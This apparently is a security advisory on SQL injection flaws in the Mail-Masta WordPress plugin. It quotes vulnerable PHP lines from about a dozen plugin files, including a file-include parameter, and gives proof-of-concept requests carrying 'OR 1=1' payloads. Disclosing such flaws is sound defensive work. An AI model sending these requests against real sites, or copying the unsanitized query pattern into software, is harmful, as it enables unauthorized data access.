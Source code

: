 Mail-Masta SQL Injection
=========================================
Page: ./wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

    http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


csvexport.php:

    $list_id=$_GET['list_id'];
    global $wpdb;
    $mail_subscribers = $wpdb->prefix . "masta_subscribers";
    $masta_list = $wpdb->prefix . "masta_list";
    $check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id";
    $check_list="SELECT * FROM $masta_list WHERE list_id= $list_id";
    $wp_list=$wpdb->get_results($check_sql);
    $wp_list_s=$wpdb->get_results($check_list);



=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

    http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


view-list.php:

    global $wpdb;
    $list_id = $_GET['filter_list'];
    $masta_list = $wpdb->prefix . "masta_list";
    $masta_subscribers = $wpdb->prefix . "masta_subscribers";
    $listdata = $wpdb->get_results( $wpdb->prepare("SELECT * FROM $masta_list WHERE list_id= $list_id",$query));
    $list_subscribers = $wpdb->get_var( $wpdb->prepare("SELECT COUNT( `list_id` ) FROM $masta_subscribers WHERE list_id= $list_id AND status=1",$query));

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

    http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


count_of_send.php:

    include($_GET['pl']);
    global $wpdb;
    $camp_id=$_POST['camp_id'];
    $masta_reports = $wpdb->prefix . "masta_reports";
    $count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");


=========================================


Page: ./wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

campaign_save.php:

    $list_id=$_POST['list_id'];
    $check_list = $wpdb->get_var("SELECT count(id) FROM wp_masta_subscribers where list_id=$list_id");


POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/view-campaign-list.php (Requires Wordpress admin)

GET Parameter: id

view-campaign-list.php:

	Line 109: 	$campaigndata = $wpdb->get_results( "SELECT * FROM $masta_campaign WHERE camp_id = $camp_id");
	Line 111: 	$totals = $wpdb->get_results( "SELECT count(*) ts FROM $masta_report WHERE camp_id = $camp_id and status=1");
	Line 113: 	$totalm = $wpdb->get_results( "SELECT count(*) tm FROM $masta_report WHERE camp_id = $camp_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/view-campaign.php (Requires Wordpress admin)

GET Parameter: id

view-campaign.php:

	Line 39: 	$campaigndata = $wpdb->get_results( "SELECT * FROM $masta_campaign WHERE camp_id = $camp_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/add_member.php (Requires Wordpress admin)

GET Parameter: filter_list	

add_member.php:

	Line 16: 	$list_form_data = $wpdb->get_results( "SELECT * FROM $masta_list WHERE list_id = $list_id ");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/edit-list.php (Requires Wordpress admin)

GET Parameter: id

edit-list.php:

	Line 21: 	$list_ans= $wpdb->get_results("select * from $mail_list where list_id=$list_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/edit_member.php (Requires Wordpress admin)

GET Parameters: filter_list, member_id

edit_member.php:

	Line 81: 	$list_form_data = $wpdb->get_results( "SELECT * FROM $masta_list WHERE list_id = $list_id ");
	Line 89: 	$list_subs = $wpdb->get_results( "SELECT * FROM $masta_subs WHERE list_id = $list_id and id = $member_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/campaign-delete.php 

GET Parameter: id

campaign-delete.php:

	(./wp-content/plugins/mail-masta/inc/mail-campaign-data.php)
	Line 1303: 	$camp_id = $_GET["id"];
	Line 4: 	$result = $wpdb->query($wpdb->prepare("DELETE FROM $masta_campaign WHERE camp_id = $camp_id limit 1"));

=========================================

Page: ./wp-content/plugins/mail-masta/inc/subscriber_list.php 

POST Parameter: list_id, subscriber_email

subscriber_list.php:

	Line 25: 	$check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id and email = '$email'";
	Line 27: 	$check_available = $wpdb->get_results($check_sql);
	Line 57: 	$list_form_data = $wpdb->get_results("SELECT * FROM $masta_list WHERE list_id = $list_id ");

=========================================



